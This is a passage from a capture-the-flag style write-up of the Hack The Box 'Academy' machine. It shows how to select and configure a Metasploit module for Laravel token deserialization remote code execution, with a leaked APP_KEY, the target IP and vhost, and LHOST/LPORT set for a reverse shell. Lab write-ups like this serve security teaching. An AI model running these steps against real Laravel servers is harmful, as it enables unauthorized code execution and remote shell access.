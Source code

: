 The module that we are looking for is found at `exploit/unix/http/laravel_token_unserialize_exec`. We can select it by simply using the command `use exploit/unix/http/laravel_token_unserialize_exec`. Once it is selected, use the `options` command to list the options that we will need to populate.

![](/assets/images/htb-academy/18_academy_msf_options.png)

The options show us that what we will need to provide are the `APP_KEY`, `RHOSTS`, `VHOST`, `LHOST`, and `LPORT`. We can set all of these using the `set` command.

``` bash
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST tun0
set LPORT 1337
```

![](/assets/images/htb-academy/19_academy_msf_set.png)

Now with everything setup we just cross our fingers and use the `run` command.
